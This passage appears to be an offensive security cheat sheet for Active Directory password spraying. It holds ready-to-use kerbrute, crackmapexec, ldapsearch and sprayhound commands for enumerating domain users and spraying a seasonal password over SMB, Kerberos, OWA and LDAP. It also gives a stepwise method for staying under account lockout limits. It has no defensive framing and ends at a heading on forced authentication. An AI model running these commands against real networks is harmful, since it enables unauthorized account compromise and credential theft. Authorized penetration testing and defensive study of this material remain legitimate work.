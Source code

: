 ## Password Spraying Techniques

### Account Enumeration First

```bash
# Kerberos user enumeration without authentication
kerbrute userenum --dc target.com -d domain.com userlist.txt

# SMB user enumeration
crackmapexec smb target.com --users

# LDAP user enumeration
ldapsearch -x -h target.com -D "cn=binduser,dc=domain,dc=com" -w "password" -b "dc=domain,dc=com" "(objectClass=person)" | grep sAMAccountName

# Extract email addresses from Exchange/OWA
```

### Password Spraying Execution

```bash
# Check domain password policy first
crackmapexec smb target.com -u validuser -p validpass --pass-pol

# SMB password spraying
crackmapexec smb target.com -u users.txt -p Spring2025! --continue-on-success

# Kerberos password spraying
kerbrute passwordspray --dc target.com -d domain.com users.txt Spring2025!

# OWA/O365 password spraying
python3 sprayhound.py -U userlist.txt -p Spring2025! -d domain.com -m owa

# LDAP password spraying
python3 ldapdomaindump.py -u 'domain\\validuser' -p 'Spring2025!' target.com
```

### Password Spraying Strategy

1. **Identify lockout policy** (typically 5-10 attempts before lockout)
2. **Create target user list** from various sources (OSINT, enumeration)
3. **Select common passwords** based on season, year, company name, etc.
4. **Spray methodically**:
   - Try 1 password against all accounts
   - Wait for lockout counter to reset (often 30 mins)
   - Try next password
5. **Document results** and successful credentials

## Forced Authentication Attacks

### Creating Capture Server
